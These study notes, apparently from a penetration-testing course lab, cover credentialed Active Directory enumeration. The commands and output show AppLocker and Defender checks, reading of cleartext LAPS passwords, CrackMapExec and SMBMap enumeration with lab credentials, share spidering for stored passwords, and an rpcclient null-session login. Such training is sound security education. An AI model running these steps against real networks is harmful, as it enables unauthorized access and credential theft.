




# Credentialed Enumeration & LOTL

## Enumerating Security Controls

After gaining a foothold, you could use this access to get a feeling for the defensive state of the hosts, enumerate the domain further now that your visibility is not as restricted, and, if necessary, work at "living off the land" by using tools that exist natively on the hosts. It is important to understand the security controls in place in an organization as the products in use can affect the tools you use for your AD enum, as well as exploitation and post-exploitation. Understanding the protections you may be up against will help inform your decisions regarding tool usage and assist you in planning your course of action by either avoiding or modifying certain tools. Some organizations have more stringent protections than others, and some do not apply security controls equally throughout. There may be policies applied to certain machines that can make your enumeration more difficult that are not applied on other machines.

### Windows Defender

... has greatly improved over the years and, by default, will block tools such as PowerView. There are ways to bypass these protections. You can use the built-in PowerShell cmdlet ```Get-MpComputerStatus``` to get the current Defender status. Here, you can see that the ```RealTimeProtectionEnabled``` parameter is set to ```True```, which means Defender is enabled on the system.

```powershell
PS C:\htb> Get-MpComputerStatus

AMEngineVersion                 : 1.1.17400.5
AMProductVersion                : 4.10.14393.0
AMServiceEnabled                : True
AMServiceVersion                : 4.10.14393.0
AntispywareEnabled              : True
AntispywareSignatureAge         : 1
AntispywareSignatureLastUpdated : 9/2/2020 11:31:50 AM
AntispywareSignatureVersion     : 1.323.392.0
AntivirusEnabled                : True
AntivirusSignatureAge           : 1
AntivirusSignatureLastUpdated   : 9/2/2020 11:31:51 AM
AntivirusSignatureVersion       : 1.323.392.0
BehaviorMonitorEnabled          : False
ComputerID                      : 07D23A51-F83F-4651-B9ED-110FF2B83A9C
ComputerState                   : 0
FullScanAge                     : 4294967295
FullScanEndTime                 :
FullScanStartTime               :
IoavProtectionEnabled           : False
LastFullScanSource              : 0
LastQuickScanSource             : 2
NISEnabled                      : False
NISEngineVersion                : 0.0.0.0
NISSignatureAge                 : 4294967295
NISSignatureLastUpdated         :
NISSignatureVersion             : 0.0.0.0
OnAccessProtectionEnabled       : False
QuickScanAge                    : 0
QuickScanEndTime                : 9/3/2020 12:50:45 AM
QuickScanStartTime              : 9/3/2020 12:49:49 AM
RealTimeProtectionEnabled       : True
RealTimeScanDirection           : 0
PSComputerName                  :
```

### AppLocker

An application whitelist is a list of approved software applications or executables that are allowed to be present and run on a system. The goal is to protect the environment from harmful malware and unapproved software that does not align with the specific business needs of an organization. AppLocker is Microsoft's application whitelisting solution and gives system admins control over which applications and files users can run. It provides granular control over executables, scripts, Windows installer files, DLLs, packaged apps, and packed app installers. It is common for organizations to block cmd.exe and PowerShell.exe and write access to certain directories, but this can all be bypassed. Organizations also often focus on blocking the PowerShell.exe executable, but forget about the other PowerShell executable locations such as ```%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe``` or ```PowerShell_ISE.exe```. You can see that this is the case in the AppLocker rules shown below. All Domain Users are disallowed from running the 64-bit PowerShell executable located at ```%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe```. So, you can merely call it from other locations. Sometimes, you run into more stringent AppLocker policies that require more creativity to bypass.

```powershell
PS C:\htb> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

PathConditions      : {%SYSTEM32%\WINDOWSPOWERSHELL\V1.0\POWERSHELL.EXE}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 3d57af4a-6cf8-4e5b-acfc-c2c2956061fa
Name                : Block PowerShell
Description         : Blocks Domain Users from using PowerShell on workstations
UserOrGroupSid      : S-1-5-21-2974783224-3764228556-2640795941-513
Action              : Deny

PathConditions      : {%PROGRAMFILES%\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 921cc481-6e17-4653-8f75-050b80acca20
Name                : (Default Rule) All files located in the Program Files folder
Description         : Allows members of the Everyone group to run applications that are located in the Program Files folder.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {%WINDIR%\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : a61c8b2c-a319-4cd0-9690-d2177cad7b51
Name                : (Default Rule) All files located in the Windows folder
Description         : Allows members of the Everyone group to run applications that are located in the Windows folder.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : fd686d83-a829-4351-8ff4-27c7de5755d2
Name                : (Default Rule) All files
Description         : Allows members of the local Administrators group to run all applications.
UserOrGroupSid      : S-1-5-32-544
Action              : Allow
```

### PowerShell Constrained Language Mode

PowerShell Constrained Language Mode locks down many of the features needed to use PowerShell effectively, such as blocking COM objects, only allowing approved .NET types, XAML-based workflows, PowerShell classes, and more. You can quickly enumerate whether you are in Full Language Mode or Constrained Language Mode.

```powershell
PS C:\htb> $ExecutionContext.SessionState.LanguageMode

ConstrainedLanguage
```

### LAPS

The Microsoft Local Administrator Password Solution (_LAPS_) is used to randomize and rotate local administrator passwords on Windows hosts and prevent lateral movement. You can enumerate what domain users can read the LAPS password set for machines with LAPS installed and what machines do not have LAPS installed. The [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) greatly facilitates this with several functions. One is parsing ExtendedRights for all computers with LAPS enabled. This will show groups specifically delegated to read LAPS passwords, which are often users in protected groups. An account that has joined a computer to a domain receives "All Extended Rights" over that host, and this right gives the account the ability to read passwords. Enumeration may show a user account that can read the LAPS password on a host. This can help you target specific AD users who can read LAPS passwords.

```powershell
PS C:\htb> Find-LAPSDelegatedGroups

OrgUnit                                             Delegated Groups
-------                                             ----------------
OU=Servers,DC=INLANEFREIGHT,DC=LOCAL                INLANEFREIGHT\Domain Admins
OU=Servers,DC=INLANEFREIGHT,DC=LOCAL                INLANEFREIGHT\LAPS Admins
OU=Workstations,DC=INLANEFREIGHT,DC=LOCAL           INLANEFREIGHT\Domain Admins
OU=Workstations,DC=INLANEFREIGHT,DC=LOCAL           INLANEFREIGHT\LAPS Admins
OU=Web Servers,OU=Servers,DC=INLANEFREIGHT,DC=LOCAL INLANEFREIGHT\Domain Admins
OU=Web Servers,OU=Servers,DC=INLANEFREIGHT,DC=LOCAL INLANEFREIGHT\LAPS Admins
OU=SQL Servers,OU=Servers,DC=INLANEFREIGHT,DC=LOCAL INLANEFREIGHT\Domain Admins
OU=SQL Servers,OU=Servers,DC=INLANEFREIGHT,DC=LOCAL INLANEFREIGHT\LAPS Admins
OU=File Servers,OU=Servers,DC=INLANEFREIGHT,DC=L... INLANEFREIGHT\Domain Admins
OU=File Servers,OU=Servers,DC=INLANEFREIGHT,DC=L... INLANEFREIGHT\LAPS Admins
OU=Contractor Laptops,OU=Workstations,DC=INLANEF... INLANEFREIGHT\Domain Admins
OU=Contractor Laptops,OU=Workstations,DC=INLANEF... INLANEFREIGHT\LAPS Admins
OU=Staff Workstations,OU=Workstations,DC=INLANEF... INLANEFREIGHT\Domain Admins
OU=Staff Workstations,OU=Workstations,DC=INLANEF... INLANEFREIGHT\LAPS Admins
OU=Executive Workstations,OU=Workstations,DC=INL... INLANEFREIGHT\Domain Admins
OU=Executive Workstations,OU=Workstations,DC=INL... INLANEFREIGHT\LAPS Admins
OU=Mail Servers,OU=Servers,DC=INLANEFREIGHT,DC=L... INLANEFREIGHT\Domain Admins
OU=Mail Servers,OU=Servers,DC=INLANEFREIGHT,DC=L... INLANEFREIGHT\LAPS Admins
```

The ```Find-AdmPwdExtendedRights``` checks the rights on each computer with LAPS enabled for any groups with read access and users with "All Extended Rights". Users with "All Extended Rights" can read LAPS passwords and may be less protected than users in delegated groups, so this is worth checking for.

```powershell
PS C:\htb> Find-AdmPwdExtendedRights

ComputerName                Identity                    Reason
------------                --------                    ------
EXCHG01.INLANEFREIGHT.LOCAL INLANEFREIGHT\Domain Admins Delegated
EXCHG01.INLANEFREIGHT.LOCAL INLANEFREIGHT\LAPS Admins   Delegated
SQL01.INLANEFREIGHT.LOCAL   INLANEFREIGHT\Domain Admins Delegated
SQL01.INLANEFREIGHT.LOCAL   INLANEFREIGHT\LAPS Admins   Delegated
WS01.INLANEFREIGHT.LOCAL    INLANEFREIGHT\Domain Admins Delegated
WS01.INLANEFREIGHT.LOCAL    INLANEFREIGHT\LAPS Admins   Delegated
```

You can use the ```Get-LAPSComputers``` function to search for computers that have LAPS enabled when passwords expire, and even randomized passwords in cleartext if your user has access.

```powershell
PS C:\htb> Get-LAPSComputers

ComputerName                Password       Expiration
------------                --------       ----------
DC01.INLANEFREIGHT.LOCAL    6DZ[+A/[]19d$F 08/26/2020 23:29:45
EXCHG01.INLANEFREIGHT.LOCAL oj+2A+[hHMMtj, 09/26/2020 00:51:30
SQL01.INLANEFREIGHT.LOCAL   9G#f;p41dcAe,s 09/26/2020 00:30:09
WS01.INLANEFREIGHT.LOCAL    TCaG-F)3No;l8C 09/26/2020 00:46:04
```

## Credentialed Enum - from Linux

### CrackMapExec

... is a powerful toolset to help with assessing AD environments. It utilizes packages from the Impacket and PowerSploit toolkits to perform its functions.

```bash
d41y@htb[/htb]$ crackmapexec -h

usage: crackmapexec [-h] [-t THREADS] [--timeout TIMEOUT] [--jitter INTERVAL] [--darrell]
                    [--verbose]
                    {mssql,smb,ssh,winrm} ...

      ______ .______           ___        ______  __  ___ .___  ___.      ___      .______    _______ ___   ___  _______   ______
     /      ||   _  \         /   \      /      ||  |/  / |   \/   |     /   \     |   _  \  |   ____|\  \ /  / |   ____| /      |
    |  ,----'|  |_)  |       /  ^  \    |  ,----'|  '  /  |  \  /  |    /  ^  \    |  |_)  | |  |__    \  V  /  |  |__   |  ,----'
    |  |     |      /       /  /_\  \   |  |     |    <   |  |\/|  |   /  /_\  \   |   ___/  |   __|    >   <   |   __|  |  |
    |  `----.|  |\  \----. /  _____  \  |  `----.|  .  \  |  |  |  |  /  _____  \  |  |      |  |____  /  .  \  |  |____ |  `----.
     \______|| _| `._____|/__/     \__\  \______||__|\__\ |__|  |__| /__/     \__\ | _|      |_______|/__/ \__\ |_______| \______|

                                         A swiss army knife for pentesting networks
                                    Forged by @byt3bl33d3r using the powah of dank memes

                                                      Version: 5.0.2dev
                                                     Codename: P3l1as
optional arguments:
  -h, --help            show this help message and exit
  -t THREADS            set how many concurrent threads to use (default: 100)
  --timeout TIMEOUT     max timeout in seconds of each thread (default: None)
  --jitter INTERVAL     sets a random delay between each connection (default: None)
  --darrell             give Darrell a hand
  --verbose             enable verbose output

protocols:
  available protocols

  {mssql,smb,ssh,winrm}
    mssql               own stuff using MSSQL
    smb                 own stuff using SMB
    ssh                 own stuff using SSH
    winrm               own stuff using WINRM

Ya feelin' a bit buggy all of a sudden?
```

You can see that you can use the tool with MSSQL, SMB, SSH, and WinRm credentials.

```bash
d41y@htb[/htb]$ crackmapexec smb -h

usage: crackmapexec smb [-h] [-id CRED_ID [CRED_ID ...]] [-u USERNAME [USERNAME ...]] [-p PASSWORD [PASSWORD ...]] [-k]
                        [--aesKey AESKEY [AESKEY ...]] [--kdcHost KDCHOST]
                        [--gfail-limit LIMIT | --ufail-limit LIMIT | --fail-limit LIMIT] [-M MODULE]
                        [-o MODULE_OPTION [MODULE_OPTION ...]] [-L] [--options] [--server {https,http}] [--server-host HOST]
                        [--server-port PORT] [-H HASH [HASH ...]] [--no-bruteforce] [-d DOMAIN | --local-auth] [--port {139,445}]
                        [--share SHARE] [--smb-server-port SMB_SERVER_PORT] [--gen-relay-list OUTPUT_FILE] [--continue-on-success]
                        [--sam | --lsa | --ntds [{drsuapi,vss}]] [--shares] [--sessions] [--disks] [--loggedon-users] [--users [USER]]
                        [--groups [GROUP]] [--local-groups [GROUP]] [--pass-pol] [--rid-brute [MAX_RID]] [--wmi QUERY]
                        [--wmi-namespace NAMESPACE] [--spider SHARE] [--spider-folder FOLDER] [--content] [--exclude-dirs DIR_LIST]
                        [--pattern PATTERN [PATTERN ...] | --regex REGEX [REGEX ...]] [--depth DEPTH] [--only-files]
                        [--put-file FILE FILE] [--get-file FILE FILE] [--exec-method {atexec,smbexec,wmiexec,mmcexec}] [--force-ps32]
                        [--no-output] [-x COMMAND | -X PS_COMMAND] [--obfs] [--amsi-bypass FILE] [--clear-obfscripts]
                        [target ...]

positional arguments:
  target                the target IP(s), range(s), CIDR(s), hostname(s), FQDN(s), file(s) containing a list of targets, NMap XML or
                        .Nessus file(s)

optional arguments:
  -h, --help            show this help message and exit
  -id CRED_ID [CRED_ID ...]
                        database credential ID(s) to use for authentication
  -u USERNAME [USERNAME ...]
                        username(s) or file(s) containing usernames
  -p PASSWORD [PASSWORD ...]
                        password(s) or file(s) containing passwords
  -k, --kerberos        Use Kerberos authentication from ccache file (KRB5CCNAME)
  
<SNIP>  
```

CME offers a help menu for each protocol. Be sure to review the entire help menu and all possible options.

#### Domain User Enum

You start by pointing CME at the DC and using the credentials for the forend user to retrieve a list of all domain users. Notice when it provides you the user information, it includes data points such as the [badPwdCount](https://docs.microsoft.com/en-us/windows/win32/adschema/a-badpwdcount) attribute. This is helpful when performing actions like targeted password spraying. You could build a target user list filtering out any users with their badPwdCount attribute above 0 to be extra careful not to lock any accounts out.

```bash
d41y@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2 
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] Enumerated domain user(s)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\administrator                  badpwdcount: 0 baddpwdtime: 2022-03-29 12:29:14.476567
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\guest                          badpwdcount: 0 baddpwdtime: 1600-12-31 19:03:58
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\lab_adm                        badpwdcount: 0 baddpwdtime: 2022-04-09 23:04:58.611828
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\krbtgt                         badpwdcount: 0 baddpwdtime: 1600-12-31 19:03:58
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\htb-student                    badpwdcount: 0 baddpwdtime: 2022-03-30 16:27:41.960920
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\avazquez                       badpwdcount: 3 baddpwdtime: 2022-02-24 18:10:01.903395

<SNIP>
```

#### Domain Group Enum

You can also obtain a complete listing of domain groups. You should save all of your output to files to easily access it again later for reporting or use with other tools.

```bash
d41y@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2 
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] Enumerated domain group(s)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Administrators                           membercount: 3
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Users                                    membercount: 4
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Guests                                   membercount: 2
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Print Operators                          membercount: 0
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Backup Operators                         membercount: 1
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Replicator                               membercount: 0

<SNIP>

SMB         172.16.5.5      445    ACADEMY-EA-DC01  Domain Admins                            membercount: 19
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Domain Users                             membercount: 0

<SNIP>

SMB         172.16.5.5      445    ACADEMY-EA-DC01  Contractors                              membercount: 138
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Accounting                               membercount: 15
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Engineering                              membercount: 19
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Executives                               membercount: 10
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Human Resources                          membercount: 36

<SNIP>
```

The above snippet lists the groups within the domain and the number of users in each. The output also shows the built-in groups on the DC, such as Backup Operators. You can begin to note down groups of interest. Take note of key groups like Administrators, Domain Admins, Executives, any groups that may contain privileged IT admins, etc. These groups will likely contain users with elevated privileges worth targeting during your assessment.

#### Logged On Users

You can also use CME to target other hosts. Check out what appears to be a file server to see what users are logged in currently.

```bash
d41y@htb[/htb]$ sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users

SMB         172.16.5.130    445    ACADEMY-EA-FILE  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-FILE) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.5.130    445    ACADEMY-EA-FILE  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2 (Pwn3d!)
SMB         172.16.5.130    445    ACADEMY-EA-FILE  [+] Enumerated loggedon users
SMB         172.16.5.130    445    ACADEMY-EA-FILE  INLANEFREIGHT\clusteragent              logon_server: ACADEMY-EA-DC01
SMB         172.16.5.130    445    ACADEMY-EA-FILE  INLANEFREIGHT\lab_adm                   logon_server: ACADEMY-EA-DC01
SMB         172.16.5.130    445    ACADEMY-EA-FILE  INLANEFREIGHT\svc_qualys                logon_server: ACADEMY-EA-DC01
SMB         172.16.5.130    445    ACADEMY-EA-FILE  INLANEFREIGHT\wley                      logon_server: ACADEMY-EA-DC01

<SNIP>
```

You see that many users are logged into this server which is very interesting. You can also see that your user forend is a local admin because ```Pwn3d!``` appears after the tool successfully authenticates to the target host. A host like this may be used as a jump host or similar by administrative users. You can see that the user svc_qualys is logged in, who you earlier identified as a domain admin. It could be an easy win if you can steal this user's credentials from memory or impersonate them.

#### Share Searching

You can use the ```--shares``` flag to enumerate available shares on the remote host and the level of access your user account has to each share.

```bash
d41y@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2 
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] Enumerated shares
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Share           Permissions     Remark
SMB         172.16.5.5      445    ACADEMY-EA-DC01  -----           -----------     ------
SMB         172.16.5.5      445    ACADEMY-EA-DC01  ADMIN$                          Remote Admin
SMB         172.16.5.5      445    ACADEMY-EA-DC01  C$                              Default share
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Department Shares READ            
SMB         172.16.5.5      445    ACADEMY-EA-DC01  IPC$            READ            Remote IPC
SMB         172.16.5.5      445    ACADEMY-EA-DC01  NETLOGON        READ            Logon server share 
SMB         172.16.5.5      445    ACADEMY-EA-DC01  SYSVOL          READ            Logon server share 
SMB         172.16.5.5      445    ACADEMY-EA-DC01  User Shares     READ            
SMB         172.16.5.5      445    ACADEMY-EA-DC01  ZZZ_archive     READ 
```

You see several shares available to you with READ access. The Department Shares, User Shares, and ZZZ_archive shares would be worth digging into further as they may contain sensitive data such as passwords or PII. Next, you can dig into the shares and spider each directory looking for files. The module ```spider_plus``` will dig through each readable share on the host and list all readable files.

```bash
d41y@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2 
SPIDER_P... 172.16.5.5      445    ACADEMY-EA-DC01  [*] Started spidering plus with option:
SPIDER_P... 172.16.5.5      445    ACADEMY-EA-DC01  [*]        DIR: ['print$']
SPIDER_P... 172.16.5.5      445    ACADEMY-EA-DC01  [*]        EXT: ['ico', 'lnk']
SPIDER_P... 172.16.5.5      445    ACADEMY-EA-DC01  [*]       SIZE: 51200
SPIDER_P... 172.16.5.5      445    ACADEMY-EA-DC01  [*]     OUTPUT: /tmp/cme_spider_plus
```

In the above command, you ran the spider against the Department Shares. When completed, CME writes the results to a JSON file located at ```/tmp/cme_spider_plus/<ip of host>```. Below you can see a portion of the JSON output. You could dig around for interesting files such as web.config files or scripts that may contain passwords. If you wanted to dig further, you could pull those files to see what all resides within, perhaps finding some hardcoded credentials or other sensitive information.

```bash
d41y@htb[/htb]$ head -n 10 /tmp/cme_spider_plus/172.16.5.5.json 

{
    "Department Shares": {
        "Accounting/Private/AddSelect.bat": {
            "atime_epoch": "2022-03-31 14:44:42",
            "ctime_epoch": "2022-03-31 14:44:39",
            "mtime_epoch": "2022-03-31 15:14:46",
            "size": "278 Bytes"
        },
        "Accounting/Private/ApproveConnect.wmf": {
            "atime_epoch": "2022-03-31 14:45:14",
     
<SNIP>
```

### SMBMap

... is great for enumerating SMB shares from a Linux attack host. It can be used to gather a listing of shares, permissions, and share contents if accessible. Once access is obtained, it can be used to download and upload files and execute commands.

Like CME, you can use SMBMap and set of domain user credentials to check for accessible shares on remote systems. As with other tools, you can type the command ```smbmap -h``` to view the tool usage menu. Aside from listing shares, you can use SMBMap to recursively list directories, list the contents of a directory, search file contents, and more. This can be especially useful when pillaging shares for useful information.

#### Checking Access

```bash
d41y@htb[/htb]$ smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5

[+] IP: 172.16.5.5:445	Name: inlanefreight.local                               
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	Department Shares                                 	READ ONLY	
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	SYSVOL                                            	READ ONLY	Logon server share 
	User Shares                                       	READ ONLY	
	ZZZ_archive                                       	READ ONLY
```

The above will tell you what your user can access and their permission levels. Like your resulsts from CME, you see that the user forend has no access to the DC via the ADMIN$ or C$ shares, but does have read access over IPC$, NETLOGON, and SYSVOL which is the default in any domain. The other non-standard shares, such as Department Shares and the user and archive shares, are most interesting. Do a recursive listing of the dirs in the Department Shares share.

#### Recursive List of all Dirs

```bash
d41y@htb[/htb]$ smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only

[+] IP: 172.16.5.5:445	Name: inlanefreight.local                               
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	Department Shares                                 	READ ONLY	
	.\Department Shares\*
	dr--r--r--                0 Thu Mar 31 15:34:29 2022	.
	dr--r--r--                0 Thu Mar 31 15:34:29 2022	..
	dr--r--r--                0 Thu Mar 31 15:14:48 2022	Accounting
	dr--r--r--                0 Thu Mar 31 15:14:39 2022	Executives
	dr--r--r--                0 Thu Mar 31 15:14:57 2022	Finance
	dr--r--r--                0 Thu Mar 31 15:15:04 2022	HR
	dr--r--r--                0 Thu Mar 31 15:15:21 2022	IT
	dr--r--r--                0 Thu Mar 31 15:15:29 2022	Legal
	dr--r--r--                0 Thu Mar 31 15:15:37 2022	Marketing
	dr--r--r--                0 Thu Mar 31 15:15:47 2022	Operations
	dr--r--r--                0 Thu Mar 31 15:15:58 2022	R&D
	dr--r--r--                0 Thu Mar 31 15:16:10 2022	Temp
	dr--r--r--                0 Thu Mar 31 15:16:18 2022	Warehouse

    <SNIP>
```

As the recursive listing dives deeper, it will show you the output of all subdirs within the higher-level dirs. The use of ```--dir-only``` provided only the output of all directories and did not list all files.

### rpcclient

... is a handy tool created for use with the Samba protocol and to provide extra functionality via MS-RPC. It can enumerate, add, change, and even remove objects from AD. It is highly versatile; you just have to find the correct command to issue for what you want to accomplish.

Due to SMB NULL sessions on some of your hosts, you can perform authenticated or unauthenticated enumeration using rpcclient.  Below is an example of the unauthenticated way:

```bash
rpcclient -U "" -N 172.16.5.5
```

